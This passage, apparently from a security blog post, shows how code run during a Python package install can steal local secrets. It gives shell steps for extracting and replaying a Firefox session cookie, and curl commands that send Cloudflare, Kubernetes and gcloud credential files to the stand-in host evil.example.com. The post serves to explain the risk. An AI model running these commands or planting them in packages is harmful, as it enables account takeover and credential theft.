 The world is now our oyster. Without some kind of sandboxing in place, we can access the vast majority of important files on the file system, including SSH keys, `~/.kube/config`, cloud credentials, and browser cookies. It just depends on what we decide to put into that `f.write()` call.

Here's an example of stealing a cookie:

```
$ cd ~/Library/Application\ Support/Firefox/Profiles/
# There may be multiple profiles, just pick the first one
$ cd $(ls | head -n 1)

# Database will probably be locked if the browser is open, so just copy it
$ cp cookies.sqlite unlocked-cookies.sqlite
$ sqlite3 cookies.sqlite
sqlite> SELECT name,value FROM moz_cookies WHERE host="news.ycombinator.com";
user|mac-chaffee&PCeezf4hhaH5S7BRsTtX/hVUQ3SQb9IpFU

# Now to peek at an auth-protected page using that cookie:
curl -i -SsLH 'Cookie: user=mac-chaffee&PCeezf4hhaH5S7BRsTtX/hVUQ3SQb9IpFU' 'https://news.ycombinator.com/upvoted?id=mac-chaffee'
```

I was surprised to see FireFox does nothing to protect cookies on disk. At least Chrome encrypts them, but [you can bypass that too](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password).

Here's an example of stealing my cloudflare credentials:

```
curl --data-binary=@~/Library/Preferences/.wrangler/config/default.toml http://evil.example.com
```

Or my Kubernetes credentials:

```
curl --data-binary=@~/.kube/config http://evil.example.com
```

Or my gcloud credentials:

```
curl --data-binary=@~/.config/gcloud/credentials.db http://evil.example.com
```

All of those are (or can be) protected with 2FA.

Even if some of those sites are VPN-protected or they tie the credentials to a specific source IP, that's not an issue for an attacker. They can just execute the API calls directly from my computer through the VPN.

### Aside: My outbound firewall (LittleSnitch et. al.) will catch you!

That's only true if I exfiltrate your credentials or if I try to download a "stage 2" payload instead of directly including my exploit code in setup.py. I bet you already have a rule allowing your terminal application to access your cloud accounts anyway.

I considered editing the LittleSnitch config files manually, but to their credit, the config files are owned by root (thus requiring a password to read/edit). Even the new CLI won't let you do anything unless you are root.
